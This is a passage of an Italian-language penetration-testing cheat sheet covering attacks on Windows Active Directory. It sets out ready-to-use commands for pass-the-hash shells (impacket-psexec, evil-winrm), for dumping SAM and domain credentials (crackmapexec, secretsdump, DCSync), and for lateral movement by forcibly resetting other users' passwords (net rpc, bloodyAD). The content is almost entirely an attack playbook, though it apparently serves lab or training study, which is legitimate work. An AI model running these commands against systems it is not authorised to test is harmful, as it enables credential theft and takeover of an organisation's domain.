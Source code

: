 ```bash
impacket-psexec <USER>@<IP> -hashes <HASH>
```

```bash
sudo evil-winrm -i <IP> -u <USER> -H <hash>
```

3. Se ottengo una shell, posso vedere i privilegi dell’utente

```bash
whoami /priv
```

4. Provo il *sam dump,* al fine di recuperare gli hash degli utenti e ritentare gli attacchi

```bash
crackmapexec smb IP-RANGE -u administrator -H HASH --local-auth --sam
```

oppure

```bash
impacket-secretsdump <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

---

## Movimento laterale

1. Studio a fondo i grafici di ***bloodhound*** per capire come muovermi. Ad esempio
    1. Ho un utente con la proprietà ***ForceChangePassword*** su un altro utente: cambio la password dell’altro utente, accedo col suo account e mi muovo da lì
    
    ```bash
    net rpc password <"NEW_USER"> <"newPass"> -U <DOMAIN>/<USER<%<PASSWORD> -S <IP>
    ```
    
    oppure
    
    ```bash
    bloodyAD -u <USER> -p <PASSWORD> -d <DOMAIN> --host <IP> set password <UTENTE_2> <NEWPASSWORD>
    
    ```
    

b. Sono già in possesso di una password che, tuttavia, l’utente deve cambiare obbligatoriamente al primo accesso (altrimenti non è possibile ottenere una shell), provo a cambiarla con *smbpasswd*

```bash
smbpasswd -r <IP> -U <USER>
```

c. Ho un utente con la proprietà ***DCSync***: posso fare il *dump* del *sam* con un *DCSync attack* e crackare gli hash o effettuare un *pass-the-hash attack,* particolarmente efficace nel caso trovassimo l’*hash* dell’administrator

```bash
impacket-secretsdump <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

```bash
impacket-psexec administrator@<IP> -hashes <HASH>
```
